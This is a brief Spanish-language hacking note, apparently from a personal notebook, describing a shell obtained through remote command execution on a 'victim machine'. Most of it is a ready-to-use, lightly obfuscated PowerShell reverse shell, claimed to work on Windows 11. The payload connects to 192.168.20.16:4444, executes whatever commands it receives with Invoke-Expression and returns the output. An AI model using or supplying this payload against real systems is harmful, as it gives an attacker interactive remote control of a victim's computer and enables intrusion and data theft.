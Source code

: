 
-------------

#vulnerabilidad #shell #explotacion

---------
Este tipo de Shell suele devolverse durante la ejecución remota de comandos en la máquina víctima.

Payload ofuscado a través de **POWERSHELL**  que funciona actualmente en windows 11

```bash
 $S = "192.168.20.16"; $P = 4444; $T = [Net.Sockets.TCPClient]; $C = New-Object $T($S, $P); $N = $C.GetStream(); $R = [IO.StreamReader]; $W = [IO.StreamWriter]; $B = New-Object "System.Byte[]" 1024; $O = New-Object $R($N); $A = New-Object $W($N); $A.AutoFlush = $true; while($C.Connected){while($N.DataAvailable){$D = $N.Read($B, 0, $B.Length); $F = ([Text.Encoding]::UTF8).GetString($B, 0, $D - 1); if($C.Connected -and $F.Length -gt 1){$X=try{Invoke-Expression($F) 2>&1}catch{$_.Exception.Message};$A.Write("$X`n");}}}$C.Close();$N.Close();$O.Close();$A.Close();
```

![[Pasted image 20241014021812.png]]

